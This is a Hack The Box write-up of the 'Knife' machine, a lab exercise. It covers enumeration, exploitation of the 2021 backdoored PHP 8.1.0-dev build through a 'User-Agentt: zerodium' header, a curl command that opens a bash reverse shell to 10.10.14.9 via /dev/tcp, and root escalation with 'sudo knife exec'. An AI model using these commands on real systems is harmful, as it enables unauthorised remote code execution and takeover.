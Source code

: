 ```yaml
---
title: "Hack The Box - Knife"
description: In this post, I'll go over Knife from Hack the Box. It's an easy level Linux machine that shows what damage a supply chain attack on the PHP codebase could have caused if it would have slipped through the cracks and got released into the wild.
date: 2021-08-30T20:00:00+01:00
slug: hack-the-box-knife
categories: [hack-the-box, writeup, knife, php, backdoor, chef]
cover: ~/assets/2021-08-30-hack-the-box-knife/cover.jpg
---
```


Knife is one of the easier boxes on HTB. There are only two significant steps involved. The first step is noticing a header in the HTTP request that contains a weird PHP version. Looking for this version online shows that this particular PHP version has a backdoor inserted when the PHP development servers were hacked back in March of 2021. Once on the box, there is a setuid binary called knife. This binary is part of Chef, which is a collection of DevOps tools. Going through the docs show that arbitrary code execution is possible to get access to the root user.

## Enumeration
I am kicking off a nmap scan to understand better what services and ports the target machine is exposing. With arguments`-sV` to enumerate versions, `-sC` to run all default scripts, and store the output in a file named `nmap.txt`. Dumping the output to a log file makes it easy to refer back to later, or if you want to embed it in your blog, as I do.

```sh
$ nmap -sC -sV -o nmap.txt 10.10.10.242

# Nmap 7.91 scan initiated Wed May 26 20:16:25 2021 as: nmap -sC -sV -v -o nmap.txt 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 26 20:16:34 2021 -- 1 IP address (1 host up) scanned in 9.23 seconds
```

The result shows an ssh server running on port `22` and a simple web server hosted by Apache on port  `80`. Opening this website in Firefox show the renderings of what I would call a pretty basic HTML website.

![Website On Port 80](../../../assets/2021-08-30-hack-the-box-knife/website.png)

After combing through the website for a minute or two, I decided to start a couple of gobuster scans. None yielded anything fruitful and it wasn't until I checked my `nikto` scan for the second time that I noticed something interesting .

```sh
$ nikto -host 10.10.10.242 -output knife-nikto.txt

- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.242
+ Target Port: 80
+ GET Retrieved x-powered-by header: PHP/8.1.0-dev
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ HTWZVPJS Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ GET The site uses SSL and Expect-CT header is not present.
```

The `x-powered-by` header contains a rather interesting version, `PHP/8.1.0-dev`, indicating this is running a development build of PHP. On release day, Googling this version didn't yield many results. Hence, I took to [GitHub](https://github.com/php/php-src) and tried to find more information in the PHP source code itself. But this also wasn't very helpful. The repo didn't contain any tags for this specific version or any references to it whatsoever. Spending a lot more time trying different google searches, I bumped in this article from [artechnica](https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server). It talks about a supply chain attack against the PHP codebase where it got hacked, and a backdoor got inserted. Looking into it deeper many more articles talking about it https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-add-backdoors-to-php-source-code/ and https://news-web.php.net/php.internals/113838.

Funny enough, searching for that version now directly leads to a working exploit on exploitdb:

![Duck Duck Go Search Result](../../../assets/2021-08-30-hack-the-box-knife/duckduckgo-search-now.png)

In a nutshell, what happened is that two commits got added to the php-src repo under the account names of two well-known PHP developers. The assumption is that an attacker gained access to git.php.net server. Git by itself doesn't add any safety measures around identity, making it very easy for whoever wants to impersonate a commit as a specific user. Following this incident, PHP maintainers have decided to migrate the official PHP source code repository to GitHub as a precaution.

Given the code lives on GitHub and the open-source nature of PHP, I can have a look at the malicious commits [here](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R370) and [here](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a?branch=2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a&diff=unified#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R368-R370). The commits target one file, `ext/zlib/zlib.c`, adding 11 lines of code (all in green):

It’s fascinating to see others commenting on the commit, the first comment asking if the misspelling of `HTTP_USER_AGENT` as `HTTP_USER_AGENTT` was a mistake, and four lines later someone asking what it did, and someone else responding basically that’s it’s a backdoor, and how it works.

![PHP Malicious Commit](../../../assets/2021-08-30-hack-the-box-knife/php-malicious-commit.png)

As the devs point out, to execute this backdoor, I’ll need a `User-Agentt` header that starts with “zerodium”, and whatever is after that will be executed as PHP code.

## Foothold
To test this out, I quickly prepare a `curl` command that will execute the `echo` command with some random text, hoping embedded in the output.

```sh
curl -XGET -H 'User-Agentt: zerodiumsystem("echo hello_15234_world");' 10.10.10.242 | grep hello
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5821    0  5821    0     0   111k      0 --:--:-- --:--:-- --:--:--  111k
hello_15234_world
```

It works! All I have to do now is replace the `echo` command with a reverse shell
 `curl -v -I -XGET -H 'User-Agentt: zerodiumsystem("bash -c \"bash -i >& /dev/tcp/10.10.14.9/6666 0>&1\"");' 10.10.10.242`. And I get a shell to extract the user flag:

![User Flag](../../../assets/2021-08-30-hack-the-box-knife/user-flag.png)

## Privilege escalation
The user I got access to is called james, and it seems that this user can run the `knife` command as root.

```sh
james@knife:/dev/shm$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

james@knife:/dev/shm$
```

Knife is part of the [Chef](https://docs.chef.io/platform_overview) toolchain. Which is an infrastructure as code platform. Knife itself is a command line tool that according to the docs can be used to manage different parts of chef such as nodes, cookbooks, recipes, roles, environments, ...

Digging through the docs I learned that `knife` has an [exec](https://docs.chef.io/workstation/knife_exec/) command that allows running ruby code. At the time of the challenge `knife` didn't have a [GTFObins page](https://gtfobins.github.io/gtfobins/ruby/#sudo) yet. Because I quickly skimmed the docs I [downloaded](https://github.com/secjohn/ruby-shells/blob/master/revshell.rb) a Ruby reverse shell and executed the file with `knife` to get root access:

![Root Flag](../../../assets/2021-08-30-hack-the-box-knife/root-flag.png)

But with the `-e` it could have been as easy as:

```
james@knife:~$ sudo knife exec -E "exec '/bin/bash'"
root@knife:/home/james#
```
